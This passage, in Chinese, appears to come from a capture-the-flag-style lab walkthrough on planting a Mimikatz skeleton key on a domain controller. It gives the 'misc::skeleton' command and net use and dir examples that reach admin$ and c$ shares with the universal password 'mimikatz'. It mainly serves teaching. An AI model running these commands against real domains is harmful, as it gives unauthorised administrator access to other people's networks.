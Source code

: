 <img src='https://i.imgur.com/yNI0zEb.png' />

## 安装带米米卡茨的骨架钥匙 -

1.） - 是的！ 就是这样，但不要低估这个小命令，它非常强大

    misc::skeleton

## 进入森林 -

默认凭据将为：“mimikatz"

示例： - 现在无需管理员密码即可访问共享net use c:\\DOMAIN-CONTROLLER\admin$ /user:Administrator mimikatz

示例： - 访问桌面 1 的目录，而不知道哪些用户有权访问桌面 1dir \\Desktop-1\c$ /user:Machine1 mimikatz

骨架密钥不会自行保留，因为它在内存中运行，可以使用其他工具和技术编写脚本或持久化，但这超出了本房间的范围。
